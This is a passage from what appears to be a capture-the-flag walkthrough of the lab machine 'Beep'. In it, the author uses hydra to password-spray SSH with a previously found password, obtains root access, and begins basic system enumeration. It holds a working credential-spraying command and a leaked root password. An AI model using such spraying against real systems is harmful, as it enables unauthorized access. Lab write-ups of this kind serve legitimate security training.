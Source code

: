 I'll save these usernames in a `users` file.

### Password spraying

Let's try the password we discovered previously for each of these users to log
in over SSH. It would be pretty quick to do it by hand, but let's get fancy and
use `hydra` instead.

```sh
❯ hydra -L "/workspace/users" -p "jEhdIekWmdjE" "10.10.10.7" "ssh"
```

```
<SNIP>
[22][ssh] host: 10.10.10.7   login: root   password: jEhdIekWmdjE
<SNIP>
```

This password is valid for `root`!

I'll connect to Beep over SSH as this user to get a shell.

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `root` (obviously).

I could just retrieve the flags and call it a day, but for good measure I'll
still enumerate basic information.

### Architecture

What is Beep's architecture?

```sh
[root@beep ~]# uname -m
```

```
i686
```

It's using i686. Let's keep that in mind to select the appropriate binaries.

### Distribution

Let's see which distribution Beep is using.

```sh
[root@beep ~]# cat "/etc/redhat-release"
```

```
CentOS release 5.6 (Final)
```

Okay, so it's CentOS 5.6.

### Kernel
